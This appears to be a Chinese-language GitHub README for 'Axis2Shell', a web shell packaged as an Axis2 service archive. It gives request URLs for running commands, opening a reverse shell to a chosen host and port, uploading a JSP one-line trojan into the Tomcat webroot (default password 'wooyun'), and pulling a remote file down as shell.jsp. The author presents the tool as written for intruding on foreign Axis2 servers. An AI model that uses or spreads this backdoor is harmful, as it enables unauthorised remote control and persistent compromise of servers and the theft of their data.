 axis2
=========

axis2 web shell  
author : Svti  
url : https://github.com/Svti/Axis2Shell  

使用介绍：  

1、命令执行  
http://1.1.1.1/services/config/exec?cmd=whoami  
(不说了，执行命令。注意:xml换行没有处理好)  

2、反弹shell  
http://1.1.1.1/services/config/shell?host=1.1.1.1&port=5555  
(Linux则使用bash反弹shell，Windows则会进行socket执行shell)  

3、文件上传  
http://1.1.1.1/services/config/upload?path=/opt/tomcat/webapps/ROOT/shell.jsp  
(会把resource目录下面的one.txt 写成shell.jsp，注意：全路径，带*文件名)  

4、文件下载  
http://1.1.1.1/services/config/download?url=http://www.ooo.com/mm.txt&path=/opt/tomcat/webapps/ROOT/shell.jsp  
(会把这个URL的文件写成shell.jsp，注意：全路径，带*文件名)  


5、class目录查看  
http://1.1.1.1/services/config/getClassPath  
(会显示当前class的路径，方便文件上传)  

ps:  
趁周末休息，看了几个国外的机器有 axis的 项目，特地去找了@园长的Cat.aar工具，发现真心不好使。  

1、反弹shell 鸡肋，好多错误 ，ls / 都不行。   

2、没有文件上传功能。这个对于一个渗透着来说很重要  

于是自己写了个，希望大家喜欢。  

源码已经上github https://github.com/Svti/Axis2Shell  

aar 文件 https://github.com/Svti/Axis2Shell/blob/master/config.aar  也在github上面，还有什么问题，可以在下面评论   


注意：   

1、相同文件名的aar文件只能上传一次，虽说是remove Service了，服务器上面的还在。想要继续使用，请rename   

2、默认的jsp一句话木马是/resource/one.txt，可以自己修改。默认密码是wooyun，发布版本里面放的是one.jsp，一向鄙视伸手党  
3、Linux反弹shell 会在当前目录生成一个wooyun.sh的文件，当shell断开后会自动删除  


